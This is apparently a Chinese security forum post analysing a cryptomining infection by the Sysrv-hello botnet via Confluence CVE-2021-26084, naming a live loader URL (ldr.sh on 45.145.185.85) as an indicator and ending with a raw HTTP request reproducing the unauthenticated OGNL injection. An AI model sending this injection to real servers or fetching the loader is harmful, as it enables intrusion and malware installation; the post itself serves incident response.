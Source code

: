 挖矿木马事件
======

1、在态势感知查看事件，发现有攻击者利用CVE-2021-26084漏洞进行攻击。

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-feb95e0ec38b6b785f39296800ca84b67a0ae4e2.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-feb95e0ec38b6b785f39296800ca84b67a0ae4e2.png)

2、进入服务器中，查看进程该服务器存在定时计划任务，会向一个服务器下载脚本文件http://45.145.185.85/ldr.sh

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-99008c5b67c9ca60b420354e7b4cb4ea017658de.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-99008c5b67c9ca60b420354e7b4cb4ea017658de.jpg)

3、服务器中存在恶意进程kthreaddi，可以确认为挖矿程序

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c0ec86a7bf3fe24abc4503f2447bf33c38ad0012.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c0ec86a7bf3fe24abc4503f2447bf33c38ad0012.png)

4、在进程以及其它信息中可以发现更多挖矿病毒信息

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-872a2de1a27058611048aaccb2f88e37e0c88f96.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-872a2de1a27058611048aaccb2f88e37e0c88f96.jpg)

5、通过开源情报信息和这些些特征信息做对比，明确该机器被Sysrv-hello僵尸网络所感染。通过对ip：45.145.185.85对威胁情报进行信息查询，发现该ip有Sysrv-hello僵尸网络标签，而且该服务器属于主控服务器，用于提供远程挖矿脚本服务。

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-34cd03b977a25843e8a8241ea71d79c5ca06ba03.png)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-34cd03b977a25843e8a8241ea71d79c5ca06ba03.png)

漏洞复现
====

1、成功执行运算。

```html
POST /pages/doenterpagevariables.action HTTP/1.1
Host: ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

queryString=%5cu0027%2b%7b3*3%7d%2b%5cu0027
&linkCreation=%5cu0027%2b%7b3*4%7d%2b%5cu0027
```

`/pages/doenterpagevariables.action`该接口是不需要登录的，有两个参数是可以利用的，一个是`queryString`，一个是`linkCreation`，初步来看两个的成因应该都是一样的
